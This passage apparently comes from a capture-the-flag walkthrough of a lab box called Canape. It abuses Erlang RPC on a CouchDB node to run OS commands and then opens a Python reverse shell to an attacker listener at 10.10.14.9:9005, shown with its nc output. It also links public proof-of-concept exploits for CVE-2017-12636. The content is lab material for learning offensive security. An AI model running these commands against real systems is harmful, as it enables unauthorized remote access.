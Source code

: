 When we issue the rpc call, it will actually add the code for us
(assuming our cookie matches):



    (0xdf@canape)3> rpc:call('couchdb@localhost', os, cmd, [whoami]).
    rpc:call('couchdb@localhost', os, cmd, [whoami]).
    "homer\n"

    (0xdf@canape)3> nodes().
    nodes().
    [couchdb@localhost]



Now, we want to get a full shell. To run a command that's anything more
than a single word, we'll put it in `""`s. To get a shell, we'll use a
python reverse shell, and be careful to escape correctly:



    (0xdf@canape)4> rpc:call('couchdb@localhost', os, cmd, ["python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.9\", 9005));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'"]).





    root@kali# nc -lnvp 9005
    listening on [any] 9005 ...
    connect to [10.10.14.9] from (UNKNOWN) [10.10.10.70] 60162
    /bin/sh: 0: can't access tty; job control turned off
    $ id
    uid=1000(homer) gid=1000(homer) groups=1000(homer)



Now that we have a shell as homer, we could grab the user flag, and
continue towards privesc. However, without homer's password, we won't be
able to sudo as required in the path above.

#### Unsuccessful Attempt Via CVE-2017-12636

CVE-2017-12636 allows for code execution through the couchdb process.
However, it won't work in this configuration.

There are a few POCs out there as reference:

-   https://raw.githubusercontent.com/vulhub/vulhub/master/couchdb/CVE-2017-12636/exp.py
-   https://www.exploit-db.com/exploits/44913/

We'd need to write a new query_server, and then invoke that. When Canape
was released, most of the POCs were for couchdb 1.x, but this box is
running 2, so the query_servers path from most of the POCs doesn't
exist. That's changed now, but we'll walk the same steps. First, get the
version, and show that the 1.X path doesn't exist:



    www-data@canape:/var/www/git$ curl http://localhost:5984
    {"couchdb":"Welcome","version":"2.0.0","vendor":{"name":"The Apache Software Foundation"}}
